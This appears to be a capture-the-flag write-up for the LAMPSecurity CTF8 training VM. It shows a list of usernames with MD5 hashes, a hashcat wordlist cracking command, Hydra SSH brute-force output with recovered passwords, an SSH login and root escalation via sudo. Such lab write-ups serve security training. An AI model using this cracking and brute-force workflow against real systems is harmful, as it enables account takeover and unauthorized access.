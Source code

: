 Jeff     ca594f739e257245f2be69eb546c1c04
Stacey     85aca385eb555fb6a36a62915ddd8bc7
Juan     573152cc51de19df50e90b0e557db7fe
Michael     c7a4476fc64b75ead800da9ea2b7d072
Jerome     42248d4cb640a3fb5836571e254aee2b
Tom     971dcf53e88e9268714d9d504753d347
Xavier     3005d829eb819341357bfddf541c175b
Sally     7a1c07ff60f9c07ffe8da34ecbf4edc2
Latte     42a7ccabfaea30678d6f1b80876773ef
{% endhighlight %}

## Hashcat MD5 cracking

Hashcat wased to crack the hashes offline:
{% highlight bash%}
[root:~]# hashcat --username -m 0 -a 0 ctf8-hashes.txt
/usr/share/wordlists/rockyou.txt
{% endhighlight %}

## Hydra SSH Brute Force

Hyrda was used to brute force SSH using the previously cracked password hashes:

{% highlight bash %}
[DATA] attacking service ssh on port 22

[22][ssh] host: 192.168.221.135   login: jharraway   password: letmein!
[22][ssh] host: 192.168.221.135   login: spinkton   password: football123
[22][ssh] host: 192.168.221.135   login: bdio   password: passw0rd
[STATUS] 167.00 tries/min, 167 tries in 00:01h, 53 todo in 00:01h, 5 active
{% endhighlight %}

## SSH Account Compromise

{% highlight bash %}
[root:~]# ssh spinkton@192.168.221.135

Welcome to LAMPSecurity Research SSH access!

#flag#5e937c51b852e1ee90d42ddb5ccb8997

Unauthorized access is expected...

spinkton@192.168.221.135's password:
Last login: Thu Mar 27 12:48:29 2014 from 192.168.56.1
#flag#motd-flag
{% endhighlight %}

## Local Privilege Escalation

{% highlight bash %}
[spinkton@localhost ~]$ sudo -s

Password:

[root@localhost ~]# id

uid=0(root) gid=0(root)
groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
context=user_u:system_r:unconfined_t
{% endhighlight %}

Thanks for the VM :)
